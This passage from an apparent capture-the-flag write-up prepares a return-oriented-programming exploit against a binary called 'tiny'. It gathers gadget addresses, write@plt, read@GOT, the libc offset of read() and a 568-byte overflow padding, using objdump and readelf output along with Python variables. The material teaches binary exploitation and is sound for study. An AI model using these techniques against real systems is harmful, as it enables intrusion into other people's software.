 So we have all of them:

```python

# gadgets
poprdiret = 0x4011dd # pop rdi; ret
poprsiret = 0x4011db # pop rsi; pop r15; ret
push_rsp  = 0x023ad1 # push rsp; ret
```

Next, let's find read@got and read offset in libc address and write @plt address.

We can see address of write@plt if we disassemble process function. There's a call to it:

![](/images/smasher/tiny_write_plt.png)

	  0x00000000004010e9 <+41>:	call   0x400c50 <write@plt>

That's done, now on to read@GOT.

```sh
root@--name:/ctf/work# objdump -R tiny | grep read
0000000000603088 R_X86_64_JUMP_SLOT  read@GLIBC_2.2.5
```

And lastly we need read() offset from libc.

```sh		
root@--name:/ctf/work# readelf -s libc.so.6 | grep read@
....
891: 00000000000f7250    90 FUNC    WEAK   DEFAULT   13 read@@GLIBC_2.2.5
```

Let's write that down, so far we have:

```python
# padding to RIP
padding = "A" * 568

# got and plt
read_got = 0x603088 # read()@GOT address
write_plt = 0x400c50 # write()@PLT address

# offsets
read_off = 0x0f7250 # read() offset from libc base

# gadgets
poprdiret = 0x4011dd # pop rdi; ret
poprsiret = 0x4011db # pop rsi; pop r15; ret
push_rsp  = 0x023ad1 # push rsp; ret
```

